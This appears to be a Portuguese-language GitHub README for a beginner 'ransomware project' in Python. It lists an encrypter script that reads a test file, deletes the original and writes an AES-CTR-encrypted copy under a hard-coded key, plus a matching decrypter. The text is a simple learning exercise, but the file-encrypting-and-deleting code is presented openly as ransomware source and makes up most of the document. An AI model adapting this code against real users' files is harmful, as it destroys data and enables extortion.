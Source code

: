 # Projeto de ransomware em Python

### Crie o arquivo .txt para ser criptografado

-

### Crie um arquivo para criptografar e um para desicriptograr

# encrypter.py
- import os
- import pyaes
#### abrir o arquivo a ser criptografado
- file_name = "teste.txt"
- file = open(file_name, "rb")
- file_data = file.read()
- file.close()
#### remover o arquivo
- os.remove(file_name)
#### chave de criptografia
- key = b"testeransomwares"
- aes = pyaes.AESModeOfOperationCTR(key)
#### criptografar o arquivo
- crypto_data = aes.encrypt(file_data)
#### salvar o arquivo criptografado
- new_file = file_name + ".ransomwaretroll"
- new_file = open(f'{new_file}','wb')
- new_file.write(crypto_data)
- new_file.close()

# decrypter.py
- import os
- import pyaes
#### abrir o arquivo criptografado
- file_name = "teste.txt.ransomwaretroll"
- file = open(file_name, "rb")
- file_data = file.read()
- file.close()
#### chave para descriptografia
- key = b"testeransomwares"
- aes = pyaes.AESModeOfOperationCTR(key)
- decrypt_data = aes.decrypt(file_data)
#### remover o arquivo criptografado
os.remove(file_name)
#### criar o arquivo descriptografado
- new_file = "teste.txt"
- new_file = open(f'{new_file}', "wb")
- new_file.write(decrypt_data)
- new_file.close()

# Resultado
